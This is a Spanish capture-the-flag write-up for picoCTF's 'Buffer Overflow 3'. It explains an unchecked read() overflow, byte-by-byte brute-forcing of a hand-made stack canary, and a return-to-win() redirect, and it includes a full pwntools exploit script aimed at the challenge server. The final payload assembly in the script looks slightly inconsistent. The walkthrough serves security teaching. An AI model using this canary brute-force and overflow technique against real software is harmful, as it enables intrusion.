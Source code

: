 # Buffer Overflow 3

Este ejercicio nos ofrece un binario y su código en C.

```c
Arch:     i386
RELRO:      Partial RELRO
Stack:      No canary found
NX:         NX enabled
PIE:        No PIE (0x8048000)
SHSTK:      Enabled
IBT:        Enabled
Stripped:   No
```

El binario nos pide que haya un `canary.txt` creado en el directorio actual de trabajo así que la creamos:

```bash
echo -n 'D3b0' > canary.txt
```

Una vez creado el programa funciona de la siguiente manera:

1. Nos pide establecer un tamaño para un buffer
2. Nos pide introducir un valor al buffer

```c
./vuln
How Many Bytes will You Write Into the Buffer?
> 10
Input> hola
Ok... Now Where's the Flag?
```

Si miramos el código podemos ver el buffer overflow:

```c
read(0, buf, count);
```

Esta línea **lee hasta `count` bytes desde la entrada y los escribe en el buffer `buf`**, sin verificar si `count` es mayor que el tamaño del buffer (`64` bytes), lo que permite un buffer overflow.

```c
sscanf(length,"%d",&count);
```

Entonces, si mandamos como tamaño 100 estaremos escribiendo en la variable `buf` mas que el máximo de 64 bytes que estaba establecido anteriormente.

Ahora que podemos hacer un buffer overflow nuestro objetivo es llegar a la dirección de retorno y mandar el flujo de nuestro programa a la función `win()`. El binario tiene canary hecho manualmente, por eso no aparece en el `checksec`. Si miramos el código podemos ver que hay un chequeo manual con `memcpm` para detectar si hemos sobrescrito el canary:

```c
if (memcmp(canary,global_canary,CANARY_SIZE)) {
    printf("***** Stack Smashing Detected ***** : Canary ValueCorrupt!\n"); // crash immediately
    fflush(stdout);
    exit(0);
}
printf("Ok... Now Where's the Flag?\n");
fflush(stdout);
```

> Como tal el binario no tiene canary, ya que en el `checksec` hems visto que pone que no hay pero el programador que ha hecho el binario ha puesto un “canary manual“.

Si intentamos bruteforcear el canary y clavar los 4 bytes de una tendríamos un problema ya que solo 1 de cada 4.2 mil millones de intentos serían exitosos. Hay una variante a esto que es encontrar el offset al canary y ir bruteforceando de byte en byte y ver si el programa crashea o en este caso si nos salta el mensaje: `***** Stack Smashing Detected ***** : Canary Value Corrupt!`. Esto solo nos llevaría en el peor de los casos 1024 intentos y de promedio 512.

Entonces vamos a ver que tenemos que hacer:

1. Mandar un tamaño para el buffer mayor o igual que nuestro payload final
2. Mandar a `buf` los bytes necesarios hasta llegar al canary
3. Bruteforcear byte a byte el canary
4. Ver la distancia entre el canary y el `EIP` y llenar ese hueco con mas bytes
5. Mandar la dirección de la función win

```c
GRÁFICO

payloadFinal = b'A' * offset_hasta_canary + valor_canary + b'A' * offset_hasta_eip + direccion_win
```

Ahora podemos hacer el script que haga todo esto:

```python
#!/usr/bin/env python3

from pwn import *
import sys

exe = ELF("./vuln_patched")

context.binary = exe
context.terminal = ['kitty']
gdb_script = '''
continue
'''

def conn():
    if args.LOCAL:
        r = process([exe.path])
        if args.GDB:
            gdb.attach(r, gdbscript=gdb_script)
        return r
    return remote("saturn.picoctf.net", 63053)

def main():
    offset = 64
    canary = b''
    chars = string.printable

    for i in range(4):  # Bruteforce de los 4 primeros bytes del canary
        for guess in chars:
            try:
                io = conn()
                payload = b'A' * offset + canary + guess.encode()
                io.sendlineafter(b'> ', str(len(payload)).encode())
                io.sendlineafter(b'> ', payload)
                response = io.recvline(timeout=1)

                if b'Smashing' not in response:
                    canary += p8(ord(guess))
                    info(f"[{i+1}/4] Byte encontrado: {hex(ord(guess))} -> Canary parcial: {canary}")
                    io.close()
                    break
                io.close()
            except Exception as e:
                print(f"[{i+1}/4] EXCEPCIÓN: {e}")
                try:
                    io.close()
                except:
                    pass

    print(f"\n[+] Canary completo encontrado: {canary}")
    payload += b'A' * 16
    payload += p32(exe.symbols.win)
    info(f'Payload: {payload}')
    
    io = conn()
    io.sendlineafter(b'> ', str(len(payload)).encode())
    io.sendlineafter(b'Input> ', payload)
    io.interactive()
if __name__ == "__main__":
    main()

```

Tenemos la flag!

```c
Ok... Now Where's the Flag?
picoCTF{SECRETO}
```
